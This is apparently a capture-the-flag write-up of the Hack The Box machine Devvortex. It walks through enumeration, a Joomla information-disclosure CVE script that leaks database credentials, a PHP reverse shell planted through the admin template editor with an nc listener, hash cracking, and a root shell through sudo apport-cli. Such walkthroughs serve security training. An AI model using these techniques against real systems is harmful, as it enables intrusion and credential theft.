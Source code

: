 # HTB - Devvortex

#### Ip: 10.10.11.242
#### Name: Devvortex
#### Rating: Easy

----------------------------------------------------------------------

![Devvortex.png](../assets/devvortex_assets/Devvortex.png)

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/Devvortex]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.10.11.242
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-06 12:44 CST
Warning: 10.10.11.242 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.11.242
Host is up (0.075s latency).
Not shown: 65463 closed tcp ports (reset), 70 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://devvortex.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.05 seconds
```
Lets add http://devvortex.htb to `/etc/hosts`

Checking out the site we find a page offering developer services:

![devvortex_site.png](../assets/devvortex_assets/devvortex_site.png)

After not finding much during directory fuzzing, I scanned for vhosts and found dev.devvortex.htb, which I also added to `/etc/hosts`. 

```
┌──(ryan㉿kali)-[~/HTB/Devvortex]
└─$ wfuzz -c -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://10.10.11.242 -H "Host: FUZZ.devvortex.htb" --hh 154
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.11.242/
Total requests: 100000

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                     
=====================================================================

000000022:   502        7 L      12 W       166 Ch      "dev" 
```

Looking for directories we find an /administrator directory:
```
┌──(ryan㉿kali)-[~/HTB/Devvortex]
└─$ dirsearch -u http://dev.devvortex.htb

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/ryan/HTB/Devvortex/reports/http_dev.devvortex.htb/_24-03-06_13-27-57.txt

Target: http://dev.devvortex.htb/

[13:27:57] Starting: 
[13:28:09] 403 -  564B  - /%2e%2e;/test
[13:28:17] 403 -  564B  - /admin/.config
[13:28:21] 301 -  178B  - /administrator  ->  http://dev.devvortex.htb/administrator/
```

Heading to this directory we see the site is running Joomla:

![devvortex_admin.png](../assets/devvortex_assets/devvortex_admin.png)

Looking for Joola exploit I find this information disclosure vulnerability: https://github.com/Acceis/exploit-CVE-2023-23752

### Exploitation

I can run the script and retrieve the usernames logan and lewis as well as a password for lewis:
```
┌──(ryan㉿kali)-[~/HTB/Devvortex]
└─$ ruby joomla_disclosure.rb http://dev.devvortex.htb
Users
[649] lewis (lewis) - lewis@devvortex.htb - Super Users
[650] logan paul (logan) - logan@devvortex.htb - Registered

Site info
Site name: Development
Editor: tinymce
Captcha: 0
Access: 1
Debug status: false

Database info
DB type: mysqli
DB host: localhost
DB user: lewis
DB password: P4ntherg0t1n5r3c0n##
DB name: joomla
DB prefix: sd4fg_
DB encryption 0
```

I am able to use Lewis' credentials to login to the Joomla site.

![devvortex_login.png](../assets/devvortex_assets/devvortex_login.png)

Because we have administrator access, we should have an easy time getting remote code execution from here. Lets go to System > Templates > Administrator Templates > index.php and overwrite the file with PentestMonkey's php-reverse-shell.php. Now when we refresh the page and navigate back to the site, we catch a shell as www-data:

```
┌──(ryan㉿kali)-[~/HTB/Devvortex]
└─$ nc -lnvp 443                 
listening on [any] 443 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.11.242] 41584
Linux devvortex 5.4.0-167-generic #184-Ubuntu SMP Tue Oct 31 09:21:49 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 17:00:23 up 24 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ hostname
devvortex
```

Trying to grab the flag in Logan's home folder we get a permission denied:

```
www-data@devvortex:/home/logan$ cat user.txt
cat: user.txt: Permission denied
```

However the credentials we discovered earlier were actually to the joomla mysql DB, so lets login on the target and see if we can discover any other credentials:

![devvortex_logan_hash.png](../assets/devvortex_assets/devvortex_logan_hash.png)

Nice, looks like we've found a hash for user logan. Lets try cracking it:

![devvortex_john.png](../assets/devvortex_assets/devvortex_john.png)

John was able to crack the bcrypt hash for us: `logan:tequieromucho`

We can now `su logan` and grab the user.txt flag:

```
www-data@devvortex:/home/logan$ su logan
Password: 
logan@devvortex:~$ whoami
logan
```

![devvortex_user.png](../assets/devvortex_assets/devvortex_user.png)

### Privilege Escalation

Running `sudo -l` to see if I can run anyhting with elevated permissions I find:

```
logan@devvortex:~$ sudo -l
[sudo] password for logan: 
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

This is interesting. Looking for exploits I find if the program is using the `less` command, I can drop into a root shell.

First we run:
```
sudo /usr/bin/apport-cli --file-bug
```

Then select 1, and then 2. You will be prompted to input any key.

Next we can select `V` which will open up a terminal as root. from there we can declare `!/bin/bash` and drop into a root shell.

We can now grab the final flag:

![devvortext_root.png](../assets/devvortex_assets/devvortex_root.png)

Thanks for following along!

-Ryan

-------------------------------------------
